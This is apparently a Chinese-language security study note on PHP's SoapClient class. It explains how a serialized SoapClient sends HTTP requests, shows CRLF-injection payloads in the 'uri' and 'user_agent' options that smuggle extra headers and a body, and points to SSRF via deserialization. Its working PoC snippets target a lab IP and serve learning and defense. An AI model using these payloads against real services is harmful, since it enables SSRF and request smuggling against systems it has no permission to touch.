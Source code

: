 # What Is SOAP

soap是webServer的三要素之一(SOAP、WSDL、UDDI)
WSDL（Web Services Description Language）用来描述如何访问具体的接口
UUDI（Universal Description Discovery and Integration）用来管理、分发、查询webServer
SOAP（Simple Object Access Protocol）是连接web服务和客户端的接口

SOAP 是一种简单的基于 XML 的协议，它使应用程序通过 HTTP 来交换信息。

# SoapClient

php需要装有soap扩展，并手动开启

SoapClient类用于创建soap数据报文，与WSDL接口进行交互

> `public  SoapClient::SoapClient ( mixed $wsdl [, array $options ] )`
>
> 第一个参数用来指明是否是wsdl模式
>
> 如果为null，那就是非wsdl模式，反序列化的时候会对第二个参数指明的url进行soap请求
>
> 如果第一个参数为null，则第二个参数必须设置location和uri
>     其中location是将请求发送到的SOAP服务器的URL
>     uri是SOAP服务的目标名称空间
>
> 第二个参数允许设置user_agent选项来设置请求的user-agent头

调用SoapClient不存在的方法，就能触发`__call`方法
当SoapClient的`__call`方法被触发时，会发送HTTP请求

```php
<?php
$a = new SoapClient(null, array('location'=>'http://192.168.145.130:8888',
    'uri'=>'test'));
$b = serialize($a);
echo $b;
$a->x();
```

![image-20221019095246816](../images/image-20221019095246816.png)

`O:10:"SoapClient":4:{s:3:"uri";s:4:"test";s:8:"location";s:27:"http://192.168.145.130:8888";s:15:"_stream_context";i:0;s:13:"_soap_version";i:1;}`

# CRLF注入

从上面的请求报文来看，SOAPAction是可控的，就是构造SoapClient对象时传入的`uri`，再跟上`#`+`不存在的方法`

```php
<?php
$a = new SoapClient(null, array('location'=>'http://192.168.145.130:8888',
    'uri'=>"Taco\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 9\r\n\r\ntest=cool\r\n\r\n"));
$b = serialize($a);
echo $b;
$a->x();
```

![image-20221019100457914](../images/image-20221019100457914.png)

也可以试试通过User-Agent注入

```php
<?php
$a = new SoapClient(null, array('location'=>'http://192.168.145.130:8888',
    'user_agent'=>"Taco\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 9\r\n\r\ntest=cool\r\n",
    'uri'=>"padding"));
$b = serialize($a);
echo $b;
$a->x();
```

![image-20221019100213612](../images/image-20221019100213612.png)

这样HTTP请求报文再被解析时，后面那部分就被完全舍弃掉了，因为我们指定了Content-Length为9
（有点HTTP请求走私那味道）

利用SoapClient可进行SSRF攻击